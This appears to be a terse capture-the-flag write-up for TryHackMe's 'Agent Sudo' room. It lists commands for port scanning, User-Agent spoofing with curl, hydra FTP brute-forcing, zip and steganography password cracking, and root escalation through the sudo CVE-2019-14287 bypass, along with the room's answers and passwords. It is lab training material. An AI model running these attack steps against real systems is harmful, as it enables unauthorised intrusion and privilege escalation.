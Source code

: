 Agent Sudo (TRYHACKME) WriteUp
'''

#1

How many open ports?

nmap <ip>
	
Ans:-3

#2

How you redirect yourself to a secret page?

Ans:- User-Agent

curl http://10.10.66.62 -H "User-Agent: C" - L


Output:-
'''
Attention chris, <br><br>

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>

From,<br>
Agent R 
'''

#3	

What is the agent name?
Ans:- chris


#1

FTP password

hydra -l chris -P /file/dest/rockyou.txt ftp://10.10.66.62
Answer :- crystal

#2

Zip file password

binwalk -e image.png
zip2john file.zip > hash.txt
john hash.txt --wordlist=rockyou.txt
Answer :- alien

#3	

steg password
steghide extract -sf image.png
Answer :- Area51

#4	

Who is the other agent (in full name)?

Answer :- james

#5	

SSH password

Answer :- hackerrules

++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++

#1

CVE number for the escalation 

(Format: CVE-xxxx-xxxx)

Answer: for priv-esc:- scp /location/linpeas.sh james@IP:/dev/shm

sudo -l tells us ->
User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash

CVE-2019-14287 : - To Get Root access we can try to mention a user that doesn't exists
sudo -u#-1 /bin/bash
